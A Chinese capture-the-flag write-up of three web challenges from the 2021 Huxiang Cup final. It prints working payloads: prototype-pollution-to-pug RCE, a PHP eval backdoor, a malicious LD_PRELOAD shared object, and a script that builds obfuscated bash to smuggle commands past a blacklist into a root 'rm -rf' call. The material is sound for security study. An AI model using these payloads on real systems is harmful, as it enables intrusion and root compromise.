



# 2021-湖湘杯final-Web

## 前言

今年湖湘报的社企组的结果就是最后只能摆烂，然后决赛那段时间正好在复习期末，然后考完了想好好的休息一段时间，打游戏打累了再来复现一下湖湘杯final的题目放松放松。

## vote

今年HTB的基本上算是原题了，复现的时候才发现当时做那题的时候就摆烂没管了，所以一点印象没有。。。

```js
const path              = require('path');
const express           = require('express');
const pug               = require('pug');
const { unflatten }     = require('flat');
const router            = express.Router();

router.get('/', (req, res) => {
    return res.sendFile(path.resolve('views/index.html'));
});

router.post('/api/submit', (req, res) => {
    const { hero } = unflatten(req.body);

	if (hero.name.includes('奇亚纳') || hero.name.includes('锐雯') || hero.name.includes('卡蜜尔') || hero.name.includes('菲奥娜')) {
		return res.json({
			'response': pug.compile('You #{user}, thank for your vote!')({ user:'Guest' })
		});
	} else {
		return res.json({
			'response': 'Please provide us with correct name.'
		});
	}
});

module.exports = router;
```

```json
{
	"name": "gunship",
	"version": "1.0.0",
	"description": "",
	"main": "index.js",
	"scripts": {
		"start": "node index.js",
		"dev": "nodemon .",
		"test": "echo \"Error: no test specified\" && exit 1"
	},
	"keywords": [],
	"authors": [
		"makelaris",
		"makelarisjr"
	],
	"dependencies": {
		"express": "^4.17.1",
		"flat": "5.0.0",
		"pug": "^3.0.0"
	}
}

```

flat可以原型链污染，pug可以模板rce，直接拿POC打：

```
{"__proto__.hero":{"name":"奇亚纳"},
    "__proto__.block": {
        "type": "Text", 
        "line": "process.mainModule.require('child_process').execSync('cat /flag > /app/static/1.txt')"
    }}
```

环境不出网所以写到static目录下面。

用的pug的POC参考如下：

https://blog.p6.is/AST-Injection/


## Penetratable

奇奇怪怪的题目。。。。就是感觉这个逻辑的绕过有点阴间叭

f12可以看到有req.js，里面写了好多的接口。

发现有个下载的功能，但是需要root。而且经过?id的测试可以知道已有2个用户，root和admin，我们自己注册的是user，权限最低。

然后就是漏洞了，user可以修改admin的密码（`?c=admin&m=updatePass`）那里把user改成admin的base64即可。然后admin可以修改root的密码（同理）。

成为root之后就可以下载文件了，下载phpinfo.php得到一个后门：

```php
<?php 
if(md5(@$_GET['pass_31d5df001717'])==='3fde6bb0541387e4ebdadf7c2ff31123'){@eval($_GET['cc']);} 
// hint: Checker will not detect the existence of phpinfo.php, please delete the file when fixing the vulnerability.
?>
```

把md5解一下是`1q2w3e`，然后蚁剑连上去sed提权读`/flag`即可：



## MultistaeAgency

首先把附件审计一下，启动了3个服务：`web`、`server`、`proxy`，其中web和server是比较关键的点，proxy起的是代理的作用。而且web和proxy是以web权限启动的，server是root权限启动：

```sh
su - web -c "/code/bin/web 2>&1  >/code/logs/web.log &"
su - web -c "/code/bin/proxy 2>&1  >/code/logs/proxy.log &"

/code/bin/server 2>&1  >/code/logs/server.log &
```

再看一下`Dockerfile`：

```
RUN chmod -R 777 /code

RUN useradd web

ADD flag /flag

RUN chmod 400 /flag
```

flag权限是400，需要root权限。


再审计一下代码，从web服务开始看，给了3个接口`/token`、`/upload`、`/list`。`/token`用于获取token和设置环境变量：

```go
	command := exec.Command("curl", "-H", "Fromhost: "+fromHost, "127.0.0.1:9091")
	for k, _ := range values {
		command.Env = append(command.Env, fmt.Sprintf("%s=%s", k, values.Get(k)))

	}
```

`/upload`是上传文件到当前`token`所对应的目录下面，然后请求server服务的`/manage`接口。`/list`接口就是列出这个目录下的文件名（因为上传之后会改名）。

看一下`/manage`接口对应的代码：

```go
func manage(w http.ResponseWriter, r *http.Request) {
	values := r.URL.Query()
	m := values.Get("m")
	if !waf(m) {
		fmt.Fprintf(w, "waf!")
		return
	}
	cmd := fmt.Sprintf("rm -rf uploads/%s", m)
	fmt.Println(cmd)
	command := exec.Command("bash", "-c", cmd)
	outinfo := bytes.Buffer{}
	outerr := bytes.Buffer{}
	command.Stdout = &outinfo
	command.Stderr = &outerr
	err := command.Start()
	res := "ERROR"
	if err != nil {
		fmt.Println(err.Error())
	}
	if err = command.Wait(); err != nil {
		res = outerr.String()
	} else {
		res = outinfo.String()

	}
	fmt.Fprintf(w, res)
}
```

rce的点应该就在这里了（注意server是以root权限运行的，这里的shell就是root权限，有权限读flag）。

GET传参可控的话，直接拿分号分割命令然后读flag即可。关键是怎么才能请求这个`/manage`接口而且传可控的GET参数。


利用方式也是没想到，说新也不新，但是只在PHP中利用过，第一次知道Go中也可以这样。

在于环境变量这里：

```go
	for k, _ := range values {
		command.Env = append(command.Env, fmt.Sprintf("%s=%s", k, values.Get(k)))
	}
```

利用`LD_PRELOAD`来加载恶意上传的so即可。

```c
root@VM-0-6-ubuntu:~# cat evil.c
#include<stdlib.h>
__attribute__((constructor)) void l3yx(){
    unsetenv("LD_PRELOAD");
    system(getenv("_evilcmd"));
}
root@VM-0-6-ubuntu:~# gcc -shared -fPIC -o evil.so evil.c
```

（刷新/页面的时候抓包就会发现会请求`/token?http_proxy=127.0.0.1:8080`，成功得到token，说明需要通过8080端口的proxy来访问，看一下proxy就知道它会自动在header里面添加上Secretkey）

将so文件上传之后即可rce：

```
/token?http_proxy=127.0.0.1:8080&LD_PRELOAD=/code/uploads/2ea6a3a71d0b2db658544f67f1468897/XVlBz&_evilcmd=ls /
```



接下来就是直接拿shell进行curl内网的server服务的`/manage`即可。 

但是`/manage`服务还带个waf：

```go
func waf(c string) bool {
	var t int32
	t = 0
	blacklist := []string{".", "*", "?"}
	for _, s := range c {
		for _, b := range blacklist {
			if b == string(s) {
				return false
			}
		}
		if unicode.IsLetter(s) {
			if t == s {
				continue
			}
			if t == 0 {
				t = s
			} else {
				return false
			}
		}
	}

	return true
}
```

不能有点，星号和问号和字母。和之前安洵的题目差不多了（之后再学一下这个），贴一下Jiang的脚本，他加了2层url编码：


```python
from urllib.parse import quote
n = dict()
n[0] = '0'
n[1] = '${##}'
n[2] = '$((${##}<<${##}))'
n[3] = '$(($((${##}<<${##}))#${##}${##}))'
n[4] = '$((${##}<<$((${##}<<${##}))))'
n[5] = '$(($((${##}<<${##}))#${##}0${##}))'
n[6] = '$(($((${##}<<${##}))#${##}${##}0))'
n[7] = '$(($((${##}<<${##}))#${##}${##}${##}))'

f=''

def str_to_oct(cmd):
    s = ""
    for t in cmd:
        o = ('%s' % (oct(ord(t))))[2:]
        s+='\\'+o
    return s

def build(cmd):
    payload = "$0<<<$0\<\<\<\$\\\'"
    s = str_to_oct(cmd).split('\\')
    for _ in s[1:]:
        payload+="\\\\"
        for i in _:
            payload+=n[int(i)]
    return payload+'\\\''

print(quote(quote("123;"+build("cat /flag"))))

```



## 总结

自从上个月13号考完一直玩到现在，中途也没怎么学习，从2022年开始就变得特别的颓废，每天昏昏沉沉，直到今天才把湖湘杯决赛的Web大致复现完（还有个josda没复现环境）。也该改变了，该放下的必须放下了。